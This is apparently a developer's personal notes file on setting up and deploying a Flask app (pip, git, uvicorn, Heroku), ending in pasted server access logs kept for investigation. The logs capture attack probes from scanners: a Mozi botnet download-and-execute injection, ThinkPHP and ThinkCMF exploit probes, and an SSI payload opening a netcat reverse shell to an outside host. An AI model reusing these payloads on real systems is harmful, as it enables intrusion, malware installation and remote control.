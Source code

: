 # Notes

## Contributing
- Fork it.
- Create a branch (git checkout -b my_malice)
- Commit your changes (git commit -am "Added Something Cool")
- Push to the branch (git push origin my_malice)
- Open a Pull Request
- Wait for me to figure out what the heck a pull request is...

## GIT
git push -u origin main

## Flask

-from flask import flask

pip3 install flask
pip3 install flask-cors
sudo apt-get update && sudo apt-get upgrade
sudo apt-get install python3.10
apt install python3-pip
apt install python3-flask
pip3 install -r requirements.txt
export FLASK_APP=app.py
export FLASK_ENV=development
flask run -h 0.0.0.0 -p 8080
flask run

## Cheat cheat
- curl cht.sh/python/flask


## Live server
from liveserver import LiveServer
ls = LiveServer(app)
    ls.run("0.0.0.0", 8080)

## uvicorn
uvicorn app:app --reload --port 80 --host 0.0.0.0

gunicorn -w 4 --bind 0.0.0.0:8000 wsgi:app


## Videos:
https://github.com/jakerieger/FlaskIntroduction/blob/master/templates/index.html


## Heroku
-$ heroku login
$ cd my-project/

$ git init OR - $ heroku git:remote -a maks-todo-api
$ heroku git:remote -a maks-todo-api

$ git add .
$ git commit -am "make it better"
$ git push heroku master

git branch -a
git push heroku main


To switch the default branch used to deploy apps from master to main, first create a new branch locally:

git checkout -b main
Next, delete the old default branch locally:

git branch -D master
From there, the local environment only knows about the main branch.

Reset the GIT repository hosted on the Heroku Platform using the heroku-reset command from the heroku-repo CLI plugin. Doing so will not impact the running application. (Note: Please communicate this change with your team. If you are working with other developers who are not aware of the reset, they might push to "master" which will overwrite the reset).

Re-deploy the application using the new default branch:

git push heroku main

todo/update/add/delete- Jinja
https://www.youtube.com/watch?v=yKHJsLUENl0
https://github.com/python-engineer/flask-todo/blob/master/templates/base.html

todo/update/add/delte/status/ jinja/some JS - most deep
https://github.com/a2975667/flask-gcp-mysql-demo
https://tichung.com/blog/2021/20200323_flask/

todo/update/
https://www.youtube.com/watch?v=Z1RJmh_OqeA

blog/users
https://www.youtube.com/watch?v=74NW-84BqbA&t=1818s

Vidoes/likes/views
https://www.youtube.com/watch?v=GMppyAPbLYk&t=253s


investigate from new TODO API Server
71.215.97.89 - - [13/May/2022 12:10:58] "GET /loadsavedtodo HTTP/1.1" 200 -
112.220.89.114 - - [13/May/2022 12:26:43] code 400, message Bad HTTP/0.9 request type ('27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$')
112.220.89.114 - - [13/May/2022 12:26:43] "27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0" HTTPStatus.BAD_REQUEST -



ode 400, message Bad request version ('´\x10r\x88CÓó\x9eU´)Ó(¬=\x8a¼\xad|Û\x9d¸k\x14\x95¸m_¥\x17EÑ\x00b\x13\x02\x13\x03\x13\x01À,À0À+À/Ì©Ì¨\x00£\x00\x9f\x00¢\x00\x9eÌªÀ¯À\xadÀ$À(À')                                                                       109.237.103.9 - - [17/May/2022 02:57:34] "D@                                                                                                  ®®¶CÓó¼­|Û¸m_¥EÑbÀ,À0À+À/Ì©Ì¨£" HTTPStatus.BAD_REQUEST
 -                                                                                                193.106.191.48 - - [17/May/2022 03:17:47] "GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP21 HTTP/1.1" 404 -                    193.106.191.48 - - [17/May/2022 03:58:35] "GET /?a=fetch&content=<php>die(@md5(HelloThinkCMF))</php> HTTP/1.1" 200 -                                                                                192.241.213.149 - - [17/May/2022 04:15:16] "GET / HTTP/1.1" 200 -                                 185.180.143.8 - - [17/May/2022 04:21:01] "GET / HTTP/1.1" 200 -                                   38.106.120.198 - - [17/May/2022 04:21:35] "GET / HTTP/1.1" 200 -                                  205.210.31.137 - - [17/May/2022 04:43:53] code 400, message Bad request version ('À(À$À\x14À')    205.210.31.137 - - [17/May/2022 04:43:53] "ÊÆ-*@máY[l7Zðáå«,÷3ÂÔDà}íªÖsÕßhÌÌÀ/À+À0À,ÀÀÀ'À#ÀÀ    À(À$ÀÀ" HTTPStatus.BAD_REQUEST -                                                                    89.104.110.102 - - [17/May/2022 04:53:19] "GET / HTTP/1.1" 200 -                                  176.53.216.46 - - [17/May/2022 04:53:20] "GET /favicon.ico HTTP/1.1" 404 -                        94.102.61.10 - - [17/May/2022 04:59:45] "GET / HTTP/1.1" 200 -                                    193.106.191.48 - - [17/May/2022 05:00:28] "GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1" 200 -    45.148.10.81 - - [17/May/2022 05:51:08] "GET /incl/image_test.shtml?camnbr=%3c!--%23exec%20cmd=%22mkfifo%20/tmp/s;nc%20-w%205%20193.124.7.9%2031337%200%3C/tmp/s|/bin/sh%3E/tmp/s%202%3E/tmp/s;rm%20/tmp/s%22%20--%3e HTTP/1.0" 404 -                                                                 193.106.191.48 - - [17/May/2022 05:56:39] "GET /console/ HTTP/1.1" 404 -                          193.106.191.48 - - [17/May/2022 06:06:29] "POST /Autodiscover/Autodiscover.xml HTTP/1.1" 404 




 changki.com